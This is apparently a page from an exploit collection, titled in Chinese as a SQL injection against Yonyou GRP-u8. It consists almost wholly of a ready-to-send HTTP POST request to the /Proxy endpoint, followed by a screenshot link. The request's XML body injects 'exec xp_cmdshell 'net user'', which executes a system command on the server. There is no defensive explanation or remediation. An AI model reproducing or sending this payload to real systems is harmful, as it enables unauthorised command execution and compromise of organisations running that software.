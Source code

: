 # 用友GRP-u8 SQL注入

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET
version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRe
quest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA
format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME
><DATA format="text">exec xp_cmdshell 'net
user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

![image-20201020120505719](resource/%E7%94%A8%E5%8F%8BGRP-u8%20SQL%E6%B3%A8%E5%85%A5/media/image-20201020120505719.png)